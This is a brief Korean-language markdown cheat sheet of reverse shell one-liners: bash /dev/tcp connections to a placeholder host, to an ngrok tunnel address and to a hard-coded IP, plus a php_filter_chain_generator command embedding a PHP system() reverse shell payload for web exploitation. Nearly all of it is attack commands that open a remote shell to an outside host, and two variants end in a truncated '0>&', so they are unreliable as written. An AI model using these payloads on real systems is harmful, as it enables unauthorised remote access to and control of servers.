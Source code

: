 # 모음
```
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```

- 웹에서 파일 디스크립션 오류 땜시 bash -c을 사용해야한다고 함

```
bash -c "sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/19954 0>&"
```


```
python3 php_filter_chain_generator.py --chain '<?php system("bash -c \'sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/19954 0>&\'"); ?> '
```

```sh
#! /bin/bash

bash -i >& /dev/tcp/211.250.216.249/7000 0>&1
```